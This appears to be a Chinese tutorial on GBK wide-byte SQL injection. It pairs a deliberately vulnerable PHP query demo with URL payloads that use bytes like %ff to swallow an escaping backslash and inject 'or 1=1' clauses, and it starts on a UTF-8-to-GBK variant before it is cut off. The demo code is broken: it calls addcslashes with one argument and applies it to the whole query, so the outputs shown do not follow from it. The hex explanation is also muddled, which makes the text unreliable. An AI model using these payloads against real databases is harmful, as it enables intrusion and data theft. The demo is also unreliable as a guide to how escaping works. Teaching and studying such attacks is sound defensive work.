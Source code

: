 该漏洞对使用本地化编码(即非utf8)的数据库有效

> gbk: 1个中文占2字节；1个英文占1字节
>
> utf8: 1个中文占3字节；1个英文占1字节

遇到使用gbk编码的数据库时，可拼接字节使英文字符形成汉字达到逃逸符号目的。

### 资源

__[gbk编码表](https://www.qqxiuzi.cn/zh/hanzi-gbk-bianma.php)__

## hex拼接（前端为gbk或utf-8）
### demo
```php
$name = $_REQUEST['name'];
$sql = "select * from user where name='$name' and status=1";
// 引号自动转义（前面加\)
$newSql = addcslashes($sql);
return $newSql;
```

### 引号逃逸测试1
```
url/?&name=a' or 1=1 -- 000
```

输出结果：
```
select * from user where name='a\' or 1=1 -- 000' and status=1
```
反斜杠转义了引号，逃逸失败


### 引号逃逸测试2
反斜杠\的hex为`5c`，我们在反斜杠前面随便添加一个hex格式的字节`ff`，组成`ff5c`,代表汉字`峿`。

f的hex为`66`，为防止ff被url编码转成`%66%66`，我们需要在传url参数时为ff添加一个`%`。

如：
```
url/?&name=a%ff' or 1=1 -- 000
```

输出结果：
```
select * from user where name='a峿' or 1=1 -- 000' and status=1
```



## 更方便当方法-汉字拼接
当前端编码为utf-8，数据库编码为gbk时，可以更方便地转义`\`进行干扰;

前端直接传入utf8汉字拼，如`好`字, hex为`e5a5bd`;
